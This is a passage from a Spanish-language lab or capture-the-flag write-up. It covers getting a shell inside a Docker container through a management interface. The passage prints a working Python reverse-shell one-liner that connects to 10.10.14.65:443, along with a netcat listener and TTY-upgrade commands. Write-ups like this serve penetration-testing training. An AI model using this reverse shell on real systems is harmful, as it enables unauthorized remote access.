 ![imagen 18](Pasted image 20230215220305.png)

El sistema ofrece varias opciones, como la de ejecutar un comando en el contenedor. Por ejemplo, un `ls -la` se vería de la siguiente forma:

![imagen 19](Pasted image 20230215220513.png)

![imagen 20](Pasted image 20230215220533.png)

Vamos a enviarnos una *reverse shell* y a enumerar la red desde dentro.

## Consiguiendo shell como jack

### Ganando acceso completo a un contenedor

Nos enviaremos una *reverse shell* para ganar acceso completo al contenedor. Para ello, recomiendo utilizar la imagen *alpine-python*, ya que tiene instalado *Python*, que nos permite enviar la *shell* utilizando este lenguaje. Por lo tanto, desplegaré un nuevo contenedor con la imagen *alpine-python*:

![imagen 21](Pasted image 20230215221041.png)

Y ejecutaré el siguiente comando (extraído de [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)):

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.65",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Los valores `s.connect(("10.10.14.65",443))` **deben ser cambiados** dependiendo de nuestra IP y del puerto en el que queramos recibir la *shell*. 

Previamente a ejecutar el comando, nos ponemos en escucha con *netcat* mediante el comando `sudo nc -nlvp 443`. Deberíamos recibir una consola:

![imagen 22](Pasted image 20230215221329.png)

Le haremos un tratamiento a la consola para hacerla más interactiva. Esto significa poder hacer *Ctrl+C* sin perder la *shell*, limpiar los comandos, movernos con las flechas… Escribiremos la siguiente secuencia de comandos:

```bash
python3 -c 'import pty;pty.spawn("/bin/sh")'
*CTRL+Z*
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![imagen 23](Pasted image 20230215221556.png)
